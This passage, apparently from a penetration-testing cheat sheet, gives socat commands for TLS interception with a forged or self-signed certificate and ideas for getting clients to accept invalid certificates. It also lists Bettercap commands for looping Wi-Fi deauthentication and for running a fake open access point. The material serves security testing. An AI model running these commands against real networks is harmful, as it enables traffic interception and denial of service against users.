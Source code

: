 #### Listen using certificate

```
sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0 -
```

#### Listen using certificate and redirect to the hosts

```
sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0  openssl-connect:[SERVER]:[PORT],verify=0
```

Some times, if the client checks that the CA is a valid one, you could **serve a certificate of other hostname signed by a CA**.\
Another interesting test, is to serve a c**ertificate of the requested hostname but self-signed**.

Other things to test is to try to sign the certificate with a valid certificate that it is not a valid CA. Or to use the valid public key, force to use an algorithm as diffie hellman (one that do not need to decrypt anything with the real private key) and when the client request a probe of the real private key (like a hash) send a fake probe and expect that the client does not check this.

## Bettercap

```bash
# Events
events.stream off #Stop showing events
events.show #Show all events
events.show 5 #Show latests 5 events 
events.clear

# Ticker (loop of commands)
set ticker.period 5; set ticker.commands "wifi.deauth DE:AD:BE:EF:DE:AD"; ticker on

# Caplets
caplets.show
caplets.update

# Wifi
wifi.recon on
wifi.deauth BSSID
wifi.show
# Fake wifi
set wifi.ap.ssid Banana
set wifi.ap.bssid DE:AD:BE:EF:DE:AD
set wifi.ap.channel 5
set wifi.ap.encryption false #If true, WPA2
wifi.recon on; wifi.ap
```

### Active Discovery Notes

Take into account that when a UDP packet is sent to a device that do not have the requested port an ICMP (Port Unreachable) is sent.
